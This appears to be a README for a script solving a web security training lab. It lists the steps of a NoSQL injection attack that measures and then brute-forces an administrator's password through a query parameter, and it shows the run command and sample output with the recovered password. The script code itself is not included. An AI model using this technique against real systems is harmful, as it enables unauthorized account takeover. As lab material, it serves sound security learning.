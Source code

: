 # Hack Steps

1. Fetch the login page
2. Extract the csrf token and session cookie
3. Login as wiener to get a valid session
4. inject payload into 'user' query parametr to determine the length of administrator's password based on conditional responses
5. Modify the payload to brute force the administrator's password
6. Fetch the login page
7. Extract the csrf token and session cookie
8. Login as the administrator
9. Fetch the administrator profile

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python exploiting_nosql_injection_to_extract_data.py
```

# Expected Output

```
⟪#⟫ Injection parameter: user
⦗1⦘ Fetching login page.. OK
⦗2⦘ Extracting the csrf token and session cookie.. OK
⦗3⦘ Logging in as wiener to get a valid session.. OK
⦗4⦘ Checking if administrator password length = 3 
⦗4⦘ Checking if administrator password length = 5
                            ................
⦗4⦘ Checking if administrator password length = 8 [ Correct length: 8 ]
⦗5⦘ Cracking administrator password, check if char at position 2  =  b [ Correct password: yzb ]
⦗5⦘ Cracking administrator password, check if char at position 5  =  u [ Correct password: yzbmiu ]
                            ................
⦗5⦘ Cracking administrator password, check if char at position 7  =  s [ Correct password: yzbmiuss ]
⦗6⦘ Fetching login page.. OK
⦗7⦘ Extracting the csrf token and session cookie.. OK
⦗8⦘ Logging in as the administrator.. OK
⦗9⦘ Fetching the administrator profile.. OK
🗹 The lab should be marked now as solved
```
